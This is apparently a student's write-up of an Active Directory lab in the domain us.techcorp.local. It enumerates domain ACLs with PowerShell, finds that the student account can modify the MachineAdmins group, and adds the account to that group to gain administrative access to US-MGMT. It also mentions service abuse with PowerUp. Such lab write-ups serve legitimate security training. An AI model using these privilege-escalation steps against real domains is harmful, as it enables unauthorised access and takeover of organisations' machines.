

# Content Lab5:

 

| computer | user |
| ------- | ------ |
| student17$ | studentuser17 |
| student17$ | Administrator |
| US-MGMT | studentuser17 |

```
  - Exploit a service on studentx and elevate privileges to local administrator.
  - Identify a machine in the domain where studentuserx has local administrative access due to group membership.
```

The first step is escalate privileges on local machine:
```
  - Review the services and abusse privileges with powerup
```

The second step is evaluate all ACLs over the us.techcorp.local domain for the studentuser17 :
```
 - Include the userstudent17 on machineAdmins groups
 - The machineadmins group allow the users access to US-MGMT such administrator
```





Evaluate All ACLs for specific data:

```
Get-DomainObjectAcl | select -expandProperty ObjectDN  | Get-Unique | % {$_;Get-Acl AD:\$_  | select -ExpandProperty Access | ?{$_.IdentityReference -like '*Managers*'}}

```
```
OU=Mgmt,DC=us,DC=techcorp,DC=local
...
CN=US-MGMT,OU=Mgmt,DC=us,DC=techcorp,DC=local
...
CN=Windows Virtual Machine,CN=US-MGMT,OU=Mgmt,DC=us,DC=techcorp,DC=local
...
CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local
...
```

```
Reviewed ACLS: 
The Machineadmins Group CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local can manage al machines of MGMT

Get-ADGroup -Identity MachineAdmins -Properties Description | select name, Description

name          Description
----          -----------
MachineAdmins Group to manage machines of the Mgmt OU
```
It's include the US-MGMT. And studentuser17 can Modified MachinesAdmins due to ACLs, so we can include the studentuser17 on Machineadmins group

```
 Add-ADGroupMember -Identity MachineAdmins -Members studentuser17 -Verbose
VERBOSE: Performing the operation "Set" on target "CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local".
```
Logoff and entry access to the target machine due to group permissions.
